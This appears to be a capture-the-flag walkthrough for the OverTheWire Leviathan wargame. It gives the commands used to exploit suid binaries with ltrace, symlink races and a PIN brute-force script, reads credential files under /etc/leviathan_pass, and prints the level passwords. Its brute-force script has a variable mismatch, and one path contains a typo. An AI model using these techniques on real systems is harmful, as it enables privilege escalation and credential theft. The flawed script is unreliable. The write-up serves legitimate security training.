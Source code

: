 ## leviathan wargame
### leviathan0
Connect leviathan0 with ssh
```
$ ssh leviathan.labs.overthewire.org -p 2223 -l leviathan0
leviathan0
```
### leviathan1
Open the *.bookmarks.html* file in *.backup* directory and look for *pass* string
```
$ grep pass .backup/bookmarks.html
...
rioGegei8m
...
```
### leviathan2

I googled about priviledge escalation with suid binaries for about an hour or two but nothing to show for it.
Finally I found this [geekstuff/reverse_engineering_tools](https://www.thegeekstuff.com/2012/03/reverse-engineering-tools/)
I tried the `ltrace` and found that *check* program compares the user input with *strcmp* function
```
$ ltrace ./check
...
strcmp("asdf\n", "sex")
...
```
After providing the correct password suid program spawn a shell with priviledged rights
```
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```

### leviathan3
There is a suid program named, it prints files with checking permissions.
Examine the program w,th `ltrace`
```
$ ltrace ./printfile /etc/hostname
```
It checks the access permissions with `access()` function but there is a vulnerability about the `""`
while calling `/bin/cat` program.

Make a file with blank in its name and make a symbolic link with one of its parts
```
$ mkdir /tmp/xx
$ cd /tmp/xx
$ touch test\ pass3
$ ln -s /etc/leviathan_pass/levitahan3 pass3
```
Test the program
```
$ ~/printfile "test pass3"
Ahdiemoo1j
```

### leviathan4

There is a suid program check it out.
```
$ ./level3
Enter the password> aaaaa
bzzzzzzzzap. WRONG
```
Examine with ltrace
```
$ ltrace ./level3
...
strcmp("\n", "snlprintf\n")
...
```
`strcmp()` compares `snlprintf` with user input.
Use it as password;
```
$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ whoami
leviathan4
$ cat /etc/leviathan_pass/leviathan4
vuH0coox6m
```

### leviathan5
There is a hidden `.trash` directory and a binary ,n this file
When it is executed it prints the 1's and 0's.

```
$ .trash/bin
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
```
Examine the binary with `ltrace`
```
$ ltrace .trash/bin
...
fopen("/etc/leviathan_pass/leviathan5", "r")
...
```
It opens leviatha5's password file but in binary format
Convert it online or in terminal, password is
```
Tith4cokei
```
### leviathan6

There is a suid program in home directory.

First execute it.
```
$ ./leviathan5
Cannot find /tmp/file.log
```
After that examine it with `ltrace`
```
$ ltrace ./leviathan5
...
fopen("/tmp/file.log", "r")
...
```
It wants to read a file in `/tmp` directory. If a symbolic link is created as same name with pointing to leviathan6 password file, the password can be read. Let's try;
```
$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
$ ./leviathan5
UgaoFee4li
```

### leviathan7
There is a suid program that checks pin code provided by an argumment to the program.
```
$ ./leviathan6 0001
Wrong
```
A simple script to do a brute force attack to this pincode can work.
```
bash
#!/bin/bash
for PIN in {7000..9999}
do
	T=$(~/leviathan6 $PIN)
	if [[ $TEST != *"Wrong"* ]];
	then
		echo $TEST
		echo "gotcha  $PIN" | tee /tmp/ao3506/pass7
		break
	fi
	echo "$TEST $PIN"
	TEST=""
done

```
When the attack script is executed it hangs at *7122*
Try this pincode and *7123* with the suid program.
```
$ ~/leviathan6 7122
Wrong
$ ~/leviathan6 7123
$ whoami
leviathan7
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```
